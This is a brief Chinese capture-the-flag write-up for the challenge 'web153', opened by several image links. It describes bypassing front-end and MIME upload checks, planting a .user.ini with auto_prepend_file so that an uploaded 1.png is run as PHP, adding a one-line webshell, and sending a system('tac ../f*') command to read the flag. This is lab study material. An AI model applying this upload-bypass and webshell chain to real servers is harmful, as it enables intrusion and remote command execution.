





# web153
需借助.user.ini上传文件
1.前端验证绕过
2.MIME头绕过

# 在所有页面加载前，自动包含指定文件，文件内的php代码会正常执行
auto_prepend_file=1.png
# 在文件加载后包含
auto_append_file=1.png

之后再上传一个名为1.png的文件,内容中写上一句话木马

不知道为什么蚁剑连接不上,直接手动输(注意路径不要带马,直接访问url/upload/)

x=system("tac ../f*");
